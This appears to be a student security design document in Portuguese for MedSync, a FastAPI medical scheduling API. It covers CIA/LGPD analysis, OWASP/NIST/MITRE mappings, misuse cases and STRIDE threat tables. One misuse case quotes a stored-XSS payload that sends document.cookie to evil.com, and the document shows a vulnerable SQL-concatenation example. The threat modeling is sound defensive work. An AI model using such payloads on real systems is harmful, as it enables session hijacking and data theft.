

# MedSync API - Modelagem de Segurança, Ameaças e Arquitetura

## 1. Exercício 3: Fundamentos de Segurança e Modelagem Inicial

### 1.1 Análise Formal sob a Tríade CIA e Enquadramento Regulatório (LGPD)

A aplicação **MedSync** opera diretamente no setor de saúde, gerenciando consultas e prontuários. Sob a **Lei Geral de Proteção de Dados (LGPD)**, dados de saúde e histórico médico são classificados como **dados pessoais sensíveis**. Essa classificação impõe requisitos rigorosos de segurança da informação:

| Pilar da Tríade CIA                            | Impacto no Domínio de Saúde (LGPD)                                                                                                                                                                        | Controles Concretos Implementados na MedSync API                                                                                                                                                                                                                                                                                                          |
| :---------------------------------------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Confidencialidade** *(Peso Crítico)* | O vazamento do vínculo entre um paciente e uma especialidade médica (ex.: oncologia, psiquiatria, infectologia) viola gravemente a privacidade e pode gerar estigma, discriminação e sanções da ANPD. | 1.**Pydantic Response Models:** O modelo `AppointmentResponse` filtra estritamente os campos da consulta, impedindo o vazamento de metadados internos (`internal_audit_id`, `created_by_ip`, `internal_notes`).2. **Isolamento de Contexto no Jinja2:** A interface da recepção recebe apenas campos pertinentes à triagem do dia. |
| **Integridade** *(Peso Alto)*           | A adulteração não autorizada de horários de consulta, médicos alocados ou prescrições pode acarretar erros de diagnóstico ou falhas graves de atendimento clínico.                                 | 1.**Validação Estrita de Schemas:** Pydantic valida tipos (`datetime`), tamanho de strings e formatos obrigatórios (`CPF`, `CRM`).2. **Auto-escaping Nativo Jinja2:** Neutralização de injeções de HTML/JS que poderiam desfigurar a interface ou alterar dinamicamente os dados na tela da recepção.                          |
| **Disponibilidade** *(Peso Alto)*       | A indisponibilidade do agendamento pode impedir atendimentos de emergência ou consultas eletivas prioritárias.                                                                                            | 1.**Arquitetura Assíncrona ASGI (FastAPI / Starlette):** Alta vazão de requisições com baixo consumo de memória.2. **Modularização por Roteadores:** Desacoplamento entre a API REST (`/appointments`) e o Portal Web (`/recepcao`).                                                                                               |

---

### 1.2 Mapeamento de Frameworks de Referência aos Controles Implementados

| Framework                                  | Código / Requisito                                                     | Descrição do Controle                                                                                             | Implementação na MedSync API                                                                                                                 |
| :----------------------------------------- | :---------------------------------------------------------------------- | :------------------------------------------------------------------------------------------------------------------ | :--------------------------------------------------------------------------------------------------------------------------------------------- |
| **OWASP API Security Top 10 (2023)** | **API3: Broken Object Property Level Authorization**              | Impede exposição de propriedades internas do objeto e injeção de parâmetros não permitidos (Mass Assignment). | Uso rigoroso de`AppointmentCreate` (entrada estrita) e `AppointmentResponse` (saída filtrada), impedindo vazamento de dados de auditoria. |
| **OWASP Top 10 (2021)**              | **A03: Injection (Cross-Site Scripting)**                         | Previne a execução de scripts maliciosos injetados por usuários e refletidos no navegador.                       | Template Jinja2 configurado com auto-escaping contextual ativo; ausência intencional do filtro perigoso`\| safe` em variáveis de entrada.   |
| **NIST SSDF (SP 800-218)**           | **PW.1 (Design Software to Meet Security Requirements)**          | Definir controles de segurança antes de codificar regras de negócio complexas.                                    | Estruturação modular em camadas (`routes`, `models`, `database`), isolamento em ambiente virtual (`.venv`) e tipagem defensiva.      |
| **NIST SSDF (SP 800-218)**           | **RV.1 (Review and Test Software)**                               | Executar testes contínuos automatizados para verificar a conformidade dos controles de segurança.                 | Suíte de testes com`pytest` e `httpx.TestClient` cobrindo cenários de sucesso, bloqueio de vazamento e sanitização XSS.                |
| **MITRE ATT&CK**                     | **T1059.007 (Command and Scripting Interpreter: JavaScript)**     | Adversários tentam executar código JavaScript arbitrário no contexto da aplicação web.                         | Codificação contextual automática de entidades HTML (`&lt;script&gt;`) pelo motor Jinja2.                                                 |
| **MITRE ATT&CK**                     | **T1083 (File and Directory Discovery / Information Disclosure)** | Obtenção não autorizada de informações estruturais e rastros internos da infraestrutura.                       | Omissão sistemática de IPs internos de servidores, timestamps de infraestrutura e identificadores de auditoria na API externa.               |

---

### 1.3 Data Flow Diagram (DFD) com Trust Boundarie



---

## 2. Exercício 4: Modelagem de Ameaças com STRIDE e Misuse Cases

### 2.1 Misuse Cases Relevantes para a Aplicação

1. **MC-01: Injeção de Stored XSS via Cadastro de Paciente na Recepção**
   * **Ator Malicioso:** Usuário externo não autenticado ou atacante explorando endpoint de autoagendamento.
   * **Ação:** Submeter no campo `patient_name` o payload: `<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>`.
   * **Impacto Pretendido:** Roubo da sessão de recepcionistas e administradores que visualizarem a agenda interna do dia.
   * **Mitigação Aplicada:** Autoescape ativado no Jinja2, neutralizando a execução do script no navegador (`&lt;script&gt;`).
2. **MC-02: Enumeração e Descoberta de Metadados de Rede Interna**
   * **Ator Malicioso:** Invasor mapeando a infraestrutura da clínica.
   * **Ação:** Enviar requisições legítimas de consulta e analisar o JSON de retorno procurando IPs (`created_by_ip`) ou IDs de trace interno.
   * **Impacto Pretendido:** Descobrir segmentação interna de rede e nós de proxy para viabilizar ataques laterais (*lateral movement*).
   * **Mitigação Aplicada:** Pydantic Response Model omite estritamente todos os campos da classe interna `AppointmentInternal`.
3. **MC-03: Quebra de Autorização em Nível de Objeto (BOLA / IDOR)**
   * **Ator Malicioso:** Paciente ou recepcionista mal-intencionado.
   * **Ação:** Alterar o identificador sequencial da URL (`GET /appointments/45`) para visualizar dados médicos e especialidade de outro paciente.
   * **Impacto Pretendido:** Violação maciça de dados pessoais sensíveis protegidos pela LGPD.
   * **Mitigação Planejada (Exercício 6/9):** Validação de ownership via token JWT e permissão baseada em papéis (RBAC).
4. **MC-04: Poluição de Parâmetros e Injeção de Privilégios (Mass Assignment)**
   * **Ator Malicioso:** Cliente da API tentando forjar confirmação ou cancelamento indevido.
   * **Ação:** Enviar no body do POST atributos não documentados, como `status="confirmada"` ou `internal_audit_id="HACKED"`.
   * **Impacto Pretendido:** Burlar etapas de faturamento ou aprovação médica da consulta.
   * **Mitigação Aplicada:** Esquema `AppointmentCreate` aceita apenas atributos específicos e rejeita/ignora campos injetados.

---

### 2.2 Aplicação do STRIDE a Três Componentes Principais

| Componente Analisado                                                          | Categoria STRIDE                     | Descrição da Ameaça Concreta                                                                           | Superfície de Ataque                                           | Mitigação Técnica Implementada / Planejada                                                                                    |
| :---------------------------------------------------------------------------- | :----------------------------------- | :-------------------------------------------------------------------------------------------------------- | :-------------------------------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------- |
| **Componente 1: API REST de Consultas (`routes/appointments.py`)**    | **S (Spoofing)**               | Atacante forja a identidade de um profissional de saúde para agendar ou cancelar consultas de terceiros. | Endpoint`POST /appointments/` e `DELETE /appointments/{id}` | Autenticação via`OAuth2PasswordBearer` com verificação de assinatura JWT e expiração estrita (Exercício 6).             |
|                                                                               | **T (Tampering)**              | Adulteração do payload da consulta em trânsito pela rede ou envio de tipos inválidos.                 | Parâmetros de entrada e corpo HTTP                             | Validação Pydantic rígida com tipagem estrita; canal seguro HTTPS/TLS forçado via HSTS.                                      |
|                                                                               | **R (Repudiation)**            | Profissional de saúde desmarca consulta e nega ter realizado a ação.                                   | Operações de alteração de estado                            | Geração automática e imutável de`internal_audit_id`, `created_by_ip` e `created_at` no momento da escrita.             |
|                                                                               | **I (Information Disclosure)** | Exposição de CPFs e diagnósticos médicos a usuários não autorizados.                                | Endpoint`GET /appointments/{id}`                              | Uso estrito de`AppointmentResponse` impedindo vazamento de metadados; mascaramento e autorização por ownership.              |
|                                                                               | **D (Denial of Service)**      | Inundação de requisições de agendamento esgotando conexões do servidor.                              | Rota`POST /appointments/`                                     | Implementação de Rate Limiting por IP e por token (Exercício 10).                                                             |
|                                                                               | **E (Elevation of Privilege)** | Usuário com papel de recepcionista executa ações exclusivas de administrador.                          | Rotas administrativas e de configuração                       | Modelo de autorização RBAC centralizado validando roles nas dependências do FastAPI (Exercício 6).                           |
| **Componente 2: Portal Web da Recepção (`routes/web.py` + Jinja2)** | **S (Spoofing)**               | Roubo ou forja de cookie de sessão da recepcionista.                                                     | Interface web HTML                                              | Cookies de sessão com flags`HttpOnly`, `Secure` e `SameSite=Strict`.                                                      |
|                                                                               | **T (Tampering)**              | Injeção de código JavaScript malicioso (Stored XSS) no HTML da agenda.                                 | Renderização de nomes e observações de pacientes            | Autoescape nativo ativo no Jinja2 convertendo caracteres especiais em entidades HTML seguras (`&lt;script&gt;`).               |
|                                                                               | **R (Repudiation)**            | Acesso aos dados do paciente sem registro de quem visualizou.                                             | Rota`GET /recepcao/agenda`                                    | Trilha de auditoria gerando logs estruturados de acessos a prontuários e agendas.                                               |
|                                                                               | **I (Information Disclosure)** | Exibição inadvertida de notas clínicas confidenciais ou metadados de auditoria.                        | Tabela HTML da agenda                                           | O template consome apenas propriedades de exibição (`horário`, `paciente`, `médico`, `status`), sem campos internos. |
|                                                                               | **D (Denial of Service)**      | Carga excessiva de agendamentos travando a renderização no navegador da clínica.                       | Carregamento da página HTML                                    | Filtro obrigatório de consultas por data e paginação de registros.                                                            |
|                                                                               | **E (Elevation of Privilege)** | Execução de script malicioso no navegador do operador assumindo seu nível de acesso.                   | Contexto do navegador Web                                       | Implementação de Content Security Policy (CSP) e sanitização contextual.                                                     |
| **Componente 3: Camada de Persistência / Dados (`database/`)**       | **S (Spoofing)**               | Conexão ilegítima se passando pelo servidor de aplicação no banco de dados.                           | Conexão de rede do banco                                       | Credenciais gerenciadas via variáveis de ambiente seguras (`BaseSettings` e `.env`) com mTLS.                               |
|                                                                               | **T (Tampering)**              | Modificação de dados médicos via SQL Injection.                                                        | Queries e filtros no repositório de dados                      | Migração para SQLModel/SQLAlchemy com queries 100% parametrizadas (Exercício 11).                                             |
|                                                                               | **R (Repudiation)**            | Exclusão física permanente de agendamentos eliminando o histórico clínico.                            | Operação de delete no banco                                   | Auditoria de operações e implementação de soft delete ou log append-only.                                                    |
|                                                                               | **I (Information Disclosure)** | Vazamento de credenciais de acesso ao banco em repositório público de código.                          | Código-fonte e versionamento Git                               | Nenhuma credencial hardcoded;`.env` ignorado no `.gitignore` e disponibilização de `.env.example`.                       |
|                                                                               | **D (Denial of Service)**      | Esgotamento do pool de conexões com o banco por requisições concorrentes não liberadas.               | Pool de conexões do banco                                      | Gerenciamento de sessões com injeção de dependência assíncrona (`get_session`) garantindo encerramento correto.           |
|                                                                               | **E (Elevation of Privilege)** | Acesso de leitura/escrita irrestrito por permissões excessivas do usuário do banco.                     | Permissões de usuário no SGBD                                 | Aplicação do Princípio do Menor Privilégio (*Least Privilege*) nas permissões do banco.                                   |

---

## 3. Exercício 5: Arquitetura de Segurança e Vetores de Ataque nos 3 Eixos de APIs

### 3.1 Particionamento do Sistema em Componentes

A arquitetura do **MedSync** é particionada em camadas com fronteiras bem delineadas, garantindo que o princípio da defesa em profundidade (*Defense in Depth*) seja respeitado:

```
┌────────────────────────────────────────────────────────────────────────┐
│                   1. CAMADA DE BORDA E TRANSPORTE                      │
│ - Terminação TLS (HTTPS obrigatório com HSTS)                          │
│ - Middleware de Cabeçalhos de Segurança (X-Frame-Options, Content-Type)│
│ - Política de CORS restrita (allowlist explícita, sem wildcard *)      │
│ - Middleware de Rate Limiting (Proteção contra Brute Force / DoS)      │
└───────────────────────────────────┬────────────────────────────────────┘
                                    │
                                    ▼
┌────────────────────────────────────────────────────────────────────────┐
│               2. CAMADA DE AUTENTICAÇÃO E AUTORIZAÇÃO                  │
│ - OAuth2PasswordBearer com Hashing Seguro (bcrypt)                     │
│ - Emissão e Validação de Tokens JWT (Claims, Expiração, Assinatura)    │
│ - Controle de Acesso Baseado em Papéis (RBAC: Recepcionista, Médico,   │
│   Administrador com MFA)                                               │
│ - Integração M2M via Client Credentials com Escopos Rígidos (Lab)      │
└───────────────────────────────────┬────────────────────────────────────┘
                                    │
                                    ▼
┌────────────────────────────────────────────────────────────────────────┐
│                 3. CAMADA DE APLICAÇÃO E VALIDAÇÃO                     │
│ - FastAPI Routers Modulares (/appointments, /recepcao, /auth, /lab)    │
│ - Schemas Pydantic (Validação Whitelist, Regex, extra='forbid')        │
│ - Pydantic Response Models (Sanitização e Supressão de Dados Internos) │
│ - Engine Jinja2 (Renderização Segura com Autoescape Obrigatório)       │
└───────────────────────────────────┬────────────────────────────────────┘
                                    │
                                    ▼
┌────────────────────────────────────────────────────────────────────────┐
│                 4. CAMADA DE PERSISTÊNCIA E AUDITORIA                  │
│ - SQLModel ORM com Queries 100% Parametrizadas                         │
│ - Gerenciamento de Sessão via Injeção de Dependências (Depends)        │
│ - Gestão de Configurações Seguras via BaseSettings (.env / .env.example)│
│ - Armazenamento de Metadados de Auditoria (IP, User ID, Timestamp)     │
└────────────────────────────────────────────────────────────────────────┘
```

---

### 3.2 Vetores de Ataque nos Três Eixos de Segurança de APIs

A segurança de uma API moderna precisa ser avaliada em três dimensões complementares: **Design**, **Implementação** e **Infraestrutura**.

#### Eixo 1: Vetores de Ataque no Design (Arquitetura)

* **Vetor D-01: Broken Object Level Authorization (BOLA / IDOR):**
  - *Risco de Design:* Se o sistema projetar endpoints baseando-se unicamente no ID do registro (`/appointments/{id}`) sem acoplar uma política de checagem de ownership (o médico ou paciente autenticado é o dono do recurso?), qualquer usuário autenticado pode ler dados médicos alheios.
  - *Mitigação de Design:* O design de autorização deve exigir validação de vínculo (relação médico-paciente) na dependência de acesso ao recurso.
* **Vetor D-02: Excesso de Privilégios em Integrações Máquina-a-Máquina (M2M):**
  - *Risco de Design:* Compartilhar a mesma chave de API ou permitir que o laboratório parceiro consulte registros completos de pacientes e históricos médicos que não dizem respeito aos exames agendados.
  - *Mitigação de Design:* Implementação de escopos OAuth 2.0 refinados (`appointments:read_slots`), permitindo ao laboratório apenas checar horários vagos, sem acesso a dados cadastrais de pacientes.
* **Vetor D-03: Mass Assignment / Broken Object Property Level Authorization:**
  - *Risco de Design:* Permitir que o mesmo modelo de dados que descreve a tabela no banco seja utilizado diretamente como modelo de entrada na API.
  - *Mitigação de Design:* Segregação estrita entre modelos `Create`, `Internal` e `Response`.

#### Eixo 2: Vetores de Ataque na Implementação (Código)

* **Vetor I-01: Injeção de SQL (SQLi):**
  - *Risco de Implementação:* Concatenação manual de strings em consultas de busca (ex.: `f"SELECT * FROM appointments WHERE patient_name = '{name}'"`).
  - *Mitigação de Implementação:* Uso exclusivo do ORM SQLModel com passagem de parâmetros vinculados (*bind variables*), onde os valores nunca são interpretados como comandos SQL.
* **Vetor I-02: Stored Cross-Site Scripting (XSS):**
  - *Risco de Implementação:* Uso impróprio de filtros de renderização bruta (como `| safe` no Jinja2) ou desativação de escape HTML ao exibir observações da consulta.
  - *Mitigação de Implementação:* Garantia de auto-escaping ativo em todas as saídas HTML e higienização contextual.
* **Vetor I-03: Armazenamento Inseguro de Senhas:**
  - *Risco de Implementação:* Utilização de algoritmos obsoletos (MD5, SHA1) ou criptografia reversível para armazenamento de senhas de usuários.
  - *Mitigação de Implementação:* Utilização de função de derivação de chave lenta baseada em `bcrypt` com salt gerado automaticamente.

#### Eixo 3: Vetores de Ataque na Infraestrutura (Ambiente e Rede)

* **Vetor INF-01: Ataques de Força Bruta e Esgotamento de Recursos (DoS):**
  - *Risco de Infraestrutura:* Ausência de limitação no número de requisições por segundo para rotas de autenticação (`/token`) e agendamento.
  - *Mitigação de Infraestrutura:* Implementação de middleware de Rate Limiting limitando tentativas por IP e por credencial.
* **Vetor INF-02: Cross-Origin Resource Sharing (CORS) Permissivo:**
  - *Risco de Infraestrutura:* Configuração de CORS com `allow_origins=["*"]` e `allow_credentials=True`, permitindo que aplicações web de terceiros realizem requisições autenticadas em nome do usuário.
  - *Mitigação de Infraestrutura:* Allowlist explícita de origens autorizadas (ex.: frontend oficial da clínica), bloqueando requisições cross-origin não confiáveis.
* **Vetor INF-03: Ausência de Cabeçalhos de Segurança HTTP:**
  - *Risco de Infraestrutura:* Falta de cabeçalhos de proteção no navegador, expondo a aplicação a Clickjacking (sem `X-Frame-Options`), MIME-sniffing (sem `X-Content-Type-Options`) e downgrade de protocolo (sem `HSTS`).
  - *Mitigação de Infraestrutura:* Middleware centralizado injetando automaticamente os headers recomendados pelas diretrizes da OWASP e Mozilla Observatory.
* **Vetor INF-04: Exposição de Segredos e Credenciais em Código:**
  - *Risco de Infraestrutura:* Hardcoding de chaves secretas de assinatura JWT ou senhas de banco de dados no repositório Git.
  - *Mitigação de Infraestrutura:* Injeção de variáveis de ambiente gerenciadas via `BaseSettings` (`pydantic-settings`), versionamento exclusivo de `.env.example` sem credenciais reais.
